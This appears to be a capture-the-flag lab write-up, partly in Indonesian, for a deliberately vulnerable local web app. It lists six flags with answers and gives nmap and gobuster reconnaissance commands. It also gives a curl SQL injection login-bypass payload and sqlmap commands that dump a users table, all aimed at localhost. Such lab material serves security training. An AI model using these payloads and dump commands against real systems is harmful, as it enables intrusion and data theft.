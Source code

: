 ## 🏁 Complete Flag List

1. **FLAG{hidden_service_discovered_8081}** 
   - **Method**: Nmap scan → akses port 8081
   - **Location**: http://localhost:8081

2. **FLAG{backup_files_exposed_g0bust3r}**
   - **Method**: Gobuster directory enumeration
   - **Location**: /backup/database.sql

3. **FLAG{sql_injection_master_b4d1c0d3}**
   - **Method**: SQL injection login bypass
   - **Location**: Dashboard setelah login admin

4. **FLAG{xss_found_h3r3}**
   - **Method**: Search employee "Alice" 
   - **Location**: Employee notes (XSS payload)

5. **FLAG{admin_access_s3cr3t_pr0j3ct}**
   - **Method**: Admin panel access
   - **Location**: /admin/secrets.php

6. **FLAG{vault_master_mystery_solved_c0mpl3t3}**
   - **Method**: Security vault access
   - **Location**: /admin/vault.php

## 🛠️ Tools & Commands Used

### Reconnaissance
```bash
# Nmap scanning
nmap -p- localhost
nmap -sV -p 8080,8081,3306 localhost

# Directory enumeration
gobuster dir -u http://localhost:8080 -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://localhost:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Manual enumeration
curl http://localhost:8080/robots.txt
curl http://localhost:8080/backup/database.sql
```

### SQL Injection
```bash
# Manual testing
curl -X POST http://localhost:8080/ -d "username=admin' OR '1'='1'-- &password=test&login=Login"

# SQLmap (optional)
sqlmap -u "http://localhost:8080/dashboard.php?search=test" --dbs
sqlmap -u "http://localhost:8080/dashboard.php?search=test" -D mystery_corp --tables
sqlmap -u "http://localhost:8080/dashboard.php?search=test" -D mystery_corp -T users --dump
```
